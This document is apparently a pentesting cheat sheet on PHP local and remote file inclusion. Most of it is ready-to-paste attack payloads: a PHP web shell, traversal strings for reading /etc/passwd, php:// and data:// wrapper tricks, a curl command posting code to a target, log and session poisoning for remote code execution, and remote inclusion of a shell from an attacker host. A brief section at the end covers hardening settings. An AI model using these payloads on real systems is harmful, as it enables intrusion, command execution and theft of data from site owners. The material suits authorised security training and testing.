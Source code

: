 # basics of file inclusion

php web shell

```
<?php system($_GET['yz']); ?>
```

world readable files

```
/etc/passwd
C:\Windows\boot.ini
```

copy/paste these

```
../../../../../../../../etc/passwd
/../../../../../../../../etc/passwd
....//....//....//....//....//....//....//....//etc/passwd
/....//....//....//....//....//....//....//....//etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd
%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fetc%2fpasswd

php://filter/read=/resource=../../../../../../../../etc/passwd
php://filter/read=convert.base64-encode/resource=../../../../../../../../etc/passwd
php://filter/read=string.rot13/resource=../../../../../../../../etc/passwd

expect://id
```

more advanced copy/paste

```
echo '<?php system($_GET['yz']); ?>' | base64
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW3l6XSk7ID8+Cg==&yz=id

curl -s -X POST --data "<?php system('id'); ?>" "http://<TARGET>/index.php?language=php://input"

echo '<?php system($_GET['yz']); ?>' > yz.php
zip yz.zip yz.php
# upload
zip://yz.zip%23yz.php&yz=id
```

PHP versions before 5.5 are vulnerable to null byte injection to bypass file extensions

```
language=../../../../../../../../etc/passwd%00
```


# RCE through poisoning log files

```
/var/log/apache2/access.log
/var/log/nginx/access.log
/var/log/sshd.log
/var/log/mail
/var/log/vsftpd.log
/proc/self/environ # on older servers

<?php system($_GET['cmd']); ?> # use as an user-agent
```

# RCE through php session files

```
/var/lib/php/sessions/sess_<PHPSESSID>
C:\Windows\Temp\sess_<PHPSESSID>
```

```
index.php?language=<?php system($_GET['cmd']); ?>
index.php?language=/var/lib/php/sessions/sess_<PHPSESSID>&cmd=id
```

# remote file inclusion

```
index.php?language=http://<LHOST>/yz.php&yz=id
index.php?language=ftp://<USER>:<PASS>@<LHOST>/yz.php&yz=id
```

# patching/hardening

```php
$lfi = "....././/..../..//filename";
while( substr_count($lfi, '../', 0)) {
 $lfi = str_replace('../', '', $lfi);
};
```

```php
basename($_GET['language'])
```

```
# php.ini
open_basedir = /var/www
display_errors = Off
allow_url_fopen = Off
allow_url_include = Off
disable_functions = system, passthru, shell_exec, popen, proc_open, curl_exec, curl_multi_exec, parse_ini_file, show_source
```
